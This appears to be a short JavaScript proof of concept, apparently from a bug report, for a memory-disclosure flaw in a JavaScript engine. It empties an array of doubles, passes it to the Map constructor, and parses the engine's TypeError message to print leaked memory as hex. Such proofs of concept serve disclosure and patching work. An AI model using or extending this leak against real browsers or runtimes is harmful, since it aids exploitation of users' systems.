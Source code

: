 
const double2int = (v) => {
  let buf = new ArrayBuffer(8);
  let farr = new Float64Array(buf);
  let iarr = new Uint32Array(buf);
  farr[0] = v;
  let d = (iarr[1] * 0x100000000) + iarr[0];
  return d;
};

try {

  let iterable = new Array(10);
  for (let i = 0; i < 10; i++) {
    iterable[i] = 123.123;
  }

  iterable.length = 0;

  new Map(iterable);
} catch (e) {
  console.log(e);
  let regex = /TypeError: Iterator value ([0-9\.e\-]+) is not an entry object/;
  let val = parseFloat(regex.exec(e)[1]);
  console.log(`Memory Value: ${double2int(val).toString(16)}`);
}
